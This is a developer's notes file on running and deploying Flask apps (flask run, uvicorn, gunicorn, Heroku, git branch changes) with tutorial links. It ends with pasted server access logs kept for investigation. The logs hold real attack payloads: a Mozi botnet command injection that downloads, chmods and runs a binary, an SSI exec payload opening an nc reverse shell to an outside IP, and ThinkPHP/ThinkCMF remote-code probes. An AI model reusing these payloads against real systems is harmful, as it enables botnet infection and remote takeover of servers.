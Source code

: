 # Notes

## Contributing
- Fork it.
- Create a branch (git checkout -b my_malice)
- Commit your changes (git commit -am "Added Something Cool")
- Push to the branch (git push origin my_malice)
- Open a Pull Request
- Wait for me to figure out what the heck a pull request is...

## Flash 
- pip3 install flask
- from flask import flask

pip install -r requirements.txt


- export FLASK_APP=app.py
- export FLASK_ENV=development

- flask run
flask run -h 0.0.0.0 -p 8080

## Cheat cheat
- curl cht.sh/python/flask


## Live server
from liveserver import LiveServer
ls = LiveServer(app)
    ls.run("0.0.0.0", 8080)

## uvicorn
uvicorn app:app --reload --port 80 --host 0.0.0.0

gunicorn -w 4 --bind 0.0.0.0:8000 wsgi:app


## Videos:
https://github.com/jakerieger/FlaskIntroduction/blob/master/templates/index.html


## Heroku
-$ heroku login
$ cd my-project/

$ git init OR - $ heroku git:remote -a maks-todo-api
$ heroku git:remote -a maks-todo-api

$ git add .
$ git commit -am "make it better"
$ git push heroku master

git branch -a
git push heroku main


To switch the default branch used to deploy apps from master to main, first create a new branch locally:

git checkout -b main
Next, delete the old default branch locally:

git branch -D master
From there, the local environment only knows about the main branch.

Reset the GIT repository hosted on the Heroku Platform using the heroku-reset command from the heroku-repo CLI plugin. Doing so will not impact the running application. (Note: Please communicate this change with your team. If you are working with other developers who are not aware of the reset, they might push to "master" which will overwrite the reset).

Re-deploy the application using the new default branch:

git push heroku main

todo/update/add/delete- Jinja
https://www.youtube.com/watch?v=yKHJsLUENl0
https://github.com/python-engineer/flask-todo/blob/master/templates/base.html

todo/update/add/delte/status/ jinja/some JS - most deep
https://github.com/a2975667/flask-gcp-mysql-demo
https://tichung.com/blog/2021/20200323_flask/

todo/update/
https://www.youtube.com/watch?v=Z1RJmh_OqeA

blog/users
https://www.youtube.com/watch?v=74NW-84BqbA&t=1818s

Vidoes/likes/views
https://www.youtube.com/watch?v=GMppyAPbLYk&t=253s


investigate from new TODO API Server
71.215.97.89 - - [13/May/2022 12:10:58] "GET /loadsavedtodo HTTP/1.1" 200 -
112.220.89.114 - - [13/May/2022 12:26:43] code 400, message Bad HTTP/0.9 request type ('27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$')
112.220.89.114 - - [13/May/2022 12:26:43] "27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0" HTTPStatus.BAD_REQUEST -



ode 400, message Bad request version ('´\x10r\x88CÓó\x9eU´)Ó(¬=\x8a¼\xad|Û\x9d¸k\x14\x95¸m_¥\x17EÑ\x00b\x13\x02\x13\x03\x13\x01À,À0À+À/Ì©Ì¨\x00£\x00\x9f\x00¢\x00\x9eÌªÀ¯À\xadÀ$À(À')                                                                       109.237.103.9 - - [17/May/2022 02:57:34] "D@                                                                                                  ®®¶CÓó¼­|Û¸m_¥EÑbÀ,À0À+À/Ì©Ì¨£" HTTPStatus.BAD_REQUEST
 -                                                                                                193.106.191.48 - - [17/May/2022 03:17:47] "GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 HTTP/1.1" 404 -                    193.106.191.48 - - [17/May/2022 03:58:35] "GET /?a=fetch&content=<php>die(@md5(HelloThinkCMF))</php> HTTP/1.1" 200 -                                                                                192.241.213.149 - - [17/May/2022 04:15:16] "GET / HTTP/1.1" 200 -                                 185.180.143.8 - - [17/May/2022 04:21:01] "GET / HTTP/1.1" 200 -                                   38.106.120.198 - - [17/May/2022 04:21:35] "GET / HTTP/1.1" 200 -                                  205.210.31.137 - - [17/May/2022 04:43:53] code 400, message Bad request version ('À(À$À\x14À')    205.210.31.137 - - [17/May/2022 04:43:53] "ÊÆ-*@máY[l7Zðáå«,÷3ÂÔDà}íªÖsÕßhÌÌÀ/À+À0À,ÀÀÀ'À#ÀÀ    À(À$ÀÀ" HTTPStatus.BAD_REQUEST -                                                                    89.104.110.102 - - [17/May/2022 04:53:19] "GET / HTTP/1.1" 200 -                                  176.53.216.46 - - [17/May/2022 04:53:20] "GET /favicon.ico HTTP/1.1" 404 -                        94.102.61.10 - - [17/May/2022 04:59:45] "GET / HTTP/1.1" 200 -                                    193.106.191.48 - - [17/May/2022 05:00:28] "GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1" 200 -    45.148.10.81 - - [17/May/2022 05:51:08] "GET /incl/image_test.shtml?camnbr=%3c!--%23exec%20cmd=%22mkfifo%20/tmp/s;nc%20-w%205%20193.124.7.9%2031337%200%3C/tmp/s|/bin/sh%3E/tmp/s%202%3E/tmp/s;rm%20/tmp/s%22%20--%3e HTTP/1.0" 404 -                                                                 193.106.191.48 - - [17/May/2022 05:56:39] "GET /console/ HTTP/1.1" 404 -                          193.106.191.48 - - [17/May/2022 06:06:29] "POST /Autodiscover/Autodiscover.xml HTTP/1.1" 404 




 changki.com